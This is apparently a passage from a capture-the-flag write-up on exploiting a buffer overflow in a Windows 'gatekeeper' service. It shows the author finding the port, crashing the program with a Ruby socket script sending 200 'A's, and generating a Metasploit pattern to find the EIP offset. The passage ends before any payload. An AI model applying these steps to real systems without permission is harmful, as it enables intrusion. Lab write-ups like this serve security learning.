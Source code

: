 ```
tasklist | findstr gatekeeper.exe
```
![PID](/gatekeeper_PID.png)

```
netstat -aon | findstr 5148
```
![netstat](/gatekeeper_netstat.png)

the program is running on port 31337.


now that we know which port the program is running on, and while it's running inside immunity debugger (which will delineate all the memory operations of the program), i return to my kali machine to create a simple exploit that will supply gatekeeper with my inputs. if the program successfully receives my input, i'll then try to crash it with a large string and if that also works, i'll work on a proper payload that will not only break the program but force it to execute my exploit in adjacent memory.

i prefer writing overflow exploits in ruby (it's a fun new language that i've been learning), so for the simple exploit i'll use a runtime dev console called ```pry```. this can be run directly inside the terminal.

```ruby
pry --simple-prompt
>> require "socket"
>> s=TCPSocket.new("192.168.100.4",31337)
>> s.puts "hello"
```

this little piece of code opens a socket to the program running in windows (addressed at 192.168.100.4) on port 31337. it then "puts" a string (hello) as the input. 

![hello](/gatekeeper_hello.png)

the program received our 6 bytes of input. now i'm going to try and crash it. instead of "hello", i'll send a string of As. 200 of them, to be exact.

```ruby
pry --simple-prompt
>> require "socket"
>> s=TCPSocket.new("192.168.100.4",31337)
>> s.puts "A"*200
```

![A](/gatekeeper_A200.png)

the program crashed, which means buffer overflow is possible! 

to do this, i need to calculate something called the "EIP offset". EIP stands for extended instruction pointer, and it tells the computer where to go to execute the next command. it basically controls the flow of a program. the EIP offset is then the exact number of bytes in the payload after which the EIP gets overwritten. to find the EIP offset, i'll first create a string with which to crash the program, and then observe the EIP in immunity debugger.

```
msf-pattern_create -l 200

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```
